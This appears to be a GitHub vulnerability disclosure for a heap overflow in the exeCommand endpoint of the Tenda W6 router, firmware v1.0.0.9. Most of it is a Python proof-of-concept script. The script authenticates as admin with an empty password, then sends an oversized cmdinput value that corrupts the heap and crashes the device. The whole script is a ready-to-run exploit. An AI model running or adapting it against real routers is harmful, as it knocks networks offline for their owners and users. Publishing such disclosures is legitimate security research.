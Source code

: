 # Tenda W6 Heap Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A heap overflow vulnerability in /goform/exeCommand in Tenda W6 v1.0.0.9(4122) allows an attacker to construct cmdinput parameters for a heap overflow. An attacker can use this vulnerability to cause a denial of service (DoS). 

Firmware Download：https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability exploit process

![image-20220707155204309](pic/image-20220707155204309.png)

A denial of service (DoS) can be caused by modifying the heap structure when freeing after a heap overflow.

```python
import requests
from pwn import *



burp0_url = "http://192.168.5.1/login/Auth"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"65",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Connection":"close"}

data1='usertype=admin&password=&time=2022;7;6;14;9;6&username='
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

print len(data1)

# sleep(0.1)

burp0_url = "http://192.168.5.1/goform/exeCommand"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="cmdinput="+'a'*0x100


requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)
print len(data1)
```

[The specific reproduction process is shown in the video](video/TendaW6堆溢出漏洞.mp4)
